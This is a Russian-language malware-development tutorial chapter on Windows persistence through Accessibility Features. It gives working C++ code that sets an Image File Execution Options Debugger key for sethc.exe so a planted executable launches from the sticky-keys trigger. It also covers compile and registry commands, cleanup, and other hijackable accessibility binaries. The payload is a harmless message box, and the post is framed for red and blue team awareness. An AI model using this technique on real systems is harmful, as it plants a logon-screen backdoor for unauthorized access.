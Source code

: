 \newpage
\subsection{78. Разработка вредоносного ПО: закрепление (persistence) - часть 12. Функции доступности. Простой пример на C++.}

﷽

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

Этот пост является результатом моего собственного исследования ещё одного метода персистентности вредоносного ПО на уровне администратора: через функции доступности Windows.    

В одном из [предыдущих](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) постов я писал о персистентности через Image File Execution Options. В одном из примеров PoC мы просто создавали отладчик для процесса-жертвы в этом ключе реестра:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

После этого единственное, что требовалось, - разместить вредоносное приложение в `System32`.    

### практический пример. sethc.exe

Сегодня я просто заменю наш целевой процесс на `sethc.exe`. Но что такое `sethc.exe`? Этот исполняемый файл отвечает за залипающие клавиши. Нажатие клавиши `Shift` `5` раз включает залипающие клавиши:    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Вместо легитимного `sethc.exe` будет запущен поддельный `sethc.exe`, который, как обычно, для простоты просто вызывает messagebox "meow". Исходный код довольно похож (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

окно сообщения Meow-meow:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает на практике. Сначала проверим ключи реестра:        

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

Затем, компилируем наш `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    

Запустим и снова проверим реестр:    

> **Для замены системного бинарного файла Windows требуются права администратора**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Наконец, нажмем `Shift` `5` раз:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

Посмотрим на свойства `hack.exe`:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Отлично! =^..^=    

После завершения эксперимента, для очистки, выполните:     

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### заключение

Функции доступности Windows включают набор утилит, доступных с экрана входа в систему (например, залипающие клавиши). Некоторые из этих функций и их соответствующие триггеры:

**1. Диспетчер специальных возможностей**     
- `C:\Windows\System32\Utilman.exe`     
- Триггер: `Windows + U`      

**2. Экранная клавиатура**     
- `C:\Windows\System32\osk.exe`      
- Триггер: клик по экранной клавиатуре     

**3. Экранная лупа**   
- `C:\Windows\System32\Magnify.exe`     
- Триггер: `Windows + =`        

**4. Экранный диктор**       
- `C:\Windows\System32\Narrator.exe`    
- Триггер: `Windows + Enter`    

**5. Переключение экрана**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Триггер: `Windows + P`    

Эти функции Windows стали широко известны после того, как группы APT использовали их для получения бэкдора на целевых компьютерах. Например, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) и [APT41](https://attack.mitre.org/groups/G0096/) использовали залипающие клавиши.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит инструмент в арсенал красных команд.    

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
